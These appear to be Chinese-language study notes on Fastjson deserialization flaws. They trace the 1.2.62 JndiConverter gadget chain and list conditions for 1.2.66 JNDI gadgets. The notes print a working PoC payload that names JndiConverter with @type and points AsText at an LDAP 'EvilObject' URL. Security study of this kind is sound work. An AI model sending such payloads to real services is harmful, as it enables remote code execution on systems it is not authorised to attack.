 `org.apache.xbean.propertyeditor.JndiConverter` 类的 `toObjectImpl()` 函数存在 JNDI 注入漏洞，可由其构造函数处触发利用。

**前面【1 基础.md】中说过，Fastjson反序列化时会自动调用构造函数和满足特定条件的setter，getter。**

`org.apache.xbean.propertyeditor.JndiConverter` 类的构造函数中使用了 super()，因此会调用`JndiConverter` 类的父类 `AbstractConverter`。

**利用链：**

父类 `AbstractConverter`的 `setAsText`方法符合Fastjson 自动调用的setter类型:

```java
AbstractConverter.setAsText
	AbstractConverter.toObject
    	JndiConverter.toObjectImpl
```

然而，我并没有找到 AsText 的值是如何定义的，文章也没有说，但是却有对应的getter，setter。我很感到奇怪，于是对 `AbstractConverter.setAsText`进行了调试，发现逻辑是：

先获取 poc 中各个属性：

```java
String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +
        "\"AsText\":\"ldap://127.0.0.1:1099/EvilObject\"}";
```

这里总共有两个属性，分别是 `1.@type` ，`2.AsText`

然后后续调用了 `setValue`,`setValue`使用了反射的技术：
```java
com/alibaba/fastjson/parser/deserializer/DefaultFieldDeserializer.java 123行: setValue(object, value);
```

我们无需关注 `setValue` 的内在实现（使用了反射的技术），只要知道是 setValue 调用了 `AbstractConverter.setAsText`。

【详情代码查看：1.2.62.java】

---

## 1.2.66 反序列化漏洞(JNDI)

- 开启AutoType；
- Fastjson <= 1.2.66；
- JNDI注入利用所受的JDK版本限制；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；
- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包



**都是JNDI注入：**

org.apache.shiro.realm.jndi.JndiRealmFactory类PoC：

```xml
<!-- https://mvnrepository.com/artifact/org.apache.shiro/shiro-core -->
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.11.0</version>
</dependency>
```
